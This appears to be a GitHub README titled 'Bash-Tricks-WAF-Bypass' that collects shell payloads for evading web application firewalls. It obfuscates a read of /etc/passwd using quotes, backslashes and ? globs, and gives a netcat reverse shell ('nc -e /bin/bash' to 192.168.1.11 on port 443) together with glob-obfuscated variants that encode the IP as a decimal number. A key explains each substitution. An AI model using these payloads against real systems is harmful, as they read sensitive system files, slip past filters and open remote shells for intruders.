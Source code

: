 # Bash-Tricks-WAF-Bypass
#Some Bypass Tricks to Bypass WAF!

/bin/cat /etc/passwd
--------------------------------------------------------

/'b'i'n'/c'a't /'e't'c'/'p'a's's'w'd''

/"b"i"n"/c"a"t /"e"t"c"/"p"a"s"s"w"d""

/b\i\n/c\a\t /e\t\c/p\a\s\s\w\d

/???/c?t /e??/pa????

--------------------------------------------------------

/bin/nc -e /bin/bash 192.168.1.11 443
--------------------------------------------------------

/???/?c -e /???/b??h 3232235787 443

/?s?/b??/n? -e /???/b??h 3232235787 443

Here,
3232235787 is decimal of 192.168.1.11
/???      = /bin
/?c       = /nc
/?s?      = /usr
/b??h     = /bash


